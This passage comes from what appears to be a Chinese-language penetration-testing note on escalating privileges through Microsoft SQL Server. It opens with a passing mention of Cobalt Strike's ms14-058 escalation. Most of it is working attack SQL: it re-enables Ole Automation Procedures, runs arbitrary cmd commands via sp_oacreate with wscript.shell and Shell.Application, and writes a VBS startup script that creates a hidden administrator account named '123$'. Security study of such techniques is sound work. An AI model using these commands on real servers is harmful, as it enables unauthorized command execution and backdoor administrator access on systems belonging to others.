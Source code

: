 顺道还用cs自带的ms14-058提权了一下



### 0x01 sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;

```

sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法 

1. 调用cmd 来执行命令 

```
wscript.shell执行命令

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'



Shell.Application执行命令
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';

```

2. 写入启动项

```
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

```
